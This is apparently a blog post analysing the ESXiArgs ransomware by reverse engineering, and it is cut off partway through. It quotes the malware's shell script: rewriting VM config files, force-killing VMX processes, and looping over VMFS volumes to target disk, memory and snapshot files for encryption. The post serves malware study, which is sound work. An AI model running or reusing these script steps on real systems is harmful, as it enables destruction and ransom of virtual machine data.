 ```yaml
---
title: "ESXiArgs: An Analysis"
date: 2024-04-01T14:42:54+07:00
tags:
  - malware
  - reverse engineering
  - security
author: "Name Nguyen"
description: "Learning about how the ESXiArgs ransomware works through reverse engineering"
---
```


Last year, a ransomware attack called **ESXiArgs** managed to encrypt hundreds of VMware machines in multiple different countries. And I decided to try my hands at reverse engineering and analyzing this malware to see how it works. So without further ado, let's reverse this.

> Note: The malware sample was provided by the [bleepingcomputer forum](https://www.bleepingcomputer.com/forums/t/782193/esxi-ransomware-help-and-support-topic-esxiargs-args-extension/page-14#entry5470686)

# The script

So right out of the gate, in the script, there's a section called `CHANGE CONFIG`:

```bash
## CHANGE CONFIG

for config_file in $(esxcli vm process list | grep "Config File" | awk '{print $3}'); do
  echo "FIND CONFIG: $config_file"
  sed -i -e 's/.vmdk/1.vmdk/g' -e 's/.vswp/1.vswp/g' "$config_file"
done
```

This will find the config files and changing the `vmdk` config files to `vswp` files. So nothing super interesting here.

In the next section, the script is stopping the `VMX` process:

```bash
## STOP VMX
echo "KILL VMX"
kill -9 $(ps | grep vmx | awk '{print $2}')
```

The `VMX` process is responsible for handling I/O devices. It is also responsible for communicating with user interfaces, snapshot managers, and remote console.

The next section is the "meat" of the malware, the *encrypt* section:

```bash
## ENCRYPT

chmod +x $CLEAN_DIR/encrypt

for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
  echo "START VOLUME: $volume"
  IFS=$'\n'
  for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
      if [[ -f "$file_e" ]]; then
        size_kb=$(du -k $file_e | awk '{print $1}')
        if [[ $size_kb -eq 0 ]]; then
          size_kb=1
        fi
        size_step=0
```